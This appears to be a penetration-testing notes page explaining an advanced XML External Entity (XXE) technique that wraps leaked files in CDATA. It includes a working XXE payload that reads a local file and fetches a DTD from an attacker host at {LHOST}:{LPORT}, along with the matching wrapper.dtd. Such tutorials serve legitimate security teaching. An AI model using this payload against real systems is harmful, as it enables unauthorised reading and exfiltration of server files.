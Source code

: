 ```yaml
---
title: Pwning XML
tags:
  - advanced
  - web-app
  - pentesting
  - xml
  - injection
  - entities
  - entity
  - external
  - cdata
  - xxe
---
```


## Advanced file access with CDATA

We initially discuss XML External Entities (XXE) exploits in
[[xml-external-entities#Retrieving files|XML External Entities, Retrieving Files]],
however, the examples provided don't account for the content we're trying to
leak being valid XML, causing the XML parser to parse the contents of the file
we're trying to leak. This likely causes the parser to prematurely halt the
processing of our data.

Using the [CDATA](https://en.wikipedia.org/wiki/CDATA) directive, we can
instruct XML to ignore parsing elements within our data - just give us the raw
information from the file referenced. Here's an example XXE payload:

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "file://{FILEPATH}" >
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://{LHOST}:{LPORT}/wrapper.dtd" >
%dtd;
]>
<org.opencrx.kernel.account1.Contact>
  <lastName>&wrapper;</lastName>
  <firstName>Tom</firstName>
</org.opencrx.kernel.account1.Contact>
```

In the above example, we define the `start` entity to be the start of the
`CDATA` XML entity. We specify which file we want to leak with the `file`
entity. Finally, we end the `CDATA` XML entity with the `end` entity. How do we
end up combining these elements?

We host a
[Document Type Definition (DTD)](https://www.w3schools.com/xml/xml_dtd.asp) and
reference it as an external entity. This external entity will combine the
`start`, `file`, and `end` entities as one final entity, `wrapper`. We invoke
the `dtd` entity, causing the victim host's XML parser to download the
`wrapper.dtd` DTD file from our attacker host. The contents of the `wrapper.dtd`
payload are provided below:

```xml
<!ENTITY wrapper "%start;%file;%end;">
```

Once the victim host successfully download's the `wrapper.dtd` DTD file, we
invoke the `wrapper` entity, causing the victim host to retrieve the file
specified by the `file` entity, and placing it in our `CDATA` entity for easy
exposure without XML parsing.

## Related pages

- [[xml-external-entities|XML external entities]]
